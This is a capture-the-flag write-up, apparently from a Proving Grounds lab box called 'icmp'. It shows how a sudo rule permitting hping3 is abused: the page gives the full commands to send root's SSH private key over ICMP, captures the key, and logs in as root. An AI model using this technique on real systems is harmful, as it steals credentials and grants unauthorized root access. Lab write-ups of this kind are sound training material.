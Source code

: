 ```yaml
---
layout: default
title: hping3
parent: Sudo
nav_order: 10
---
```


# hping3 (Sudo)

---

## Check Sudo Permissions

```bash
$ sudo -l
[sudo] password for fox:
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3

```

We can use sudo permissions on _hping3_

Checking GTFOBins for _hping3_ exploits.

![gtfobins](../../../../assets/images/ctfs/proving_grounds/icmp/gtfobins.png)

We should be able to use this exploit to send the _root_ user _.ssh/id_rsa_ private key to our attack machine.

```bash
# open a second ssh session as user fox
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ ssh fox@192.168.226.218
$ whoami
fox

# Now listen for hping3 traffic locally on loopback 127.0.0.1

$ sudo hping3 --icmp 127.0.0.1 --listen signature --safe
Warning: Unable to guess the output interface
hping3 listen mode
[main] memlockall(): Success
Warning: can't disable memory paging!

# Finally we send the /root/.ssh/id_rsa private key

$ sudo /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa
HPING 127.0.0.1 (lo 127.0.0.1): icmp mode set, 28 headers + 100 data bytes
[main] memlockall(): Success
Warning: can't disable memory paging!
len=128 ip=127.0.0.1 ttl=64 id=9781 icmp_seq=0 rtt=2.6 ms


```

As we can see the file is printed line by line in our second SSH session.

![hping](../../../../assets/images/ctfs/proving_grounds/icmp/hping.png)

We now have the private rsa key for the root user and can simply SSH as root

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/icmp]
└─$ ssh -i id_rsa root@192.168.226.218
Linux icmp 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 23 20:18:10 2022
root@icmp:~# id
uid=0(root) gid=0(root) groups=0(root)

```
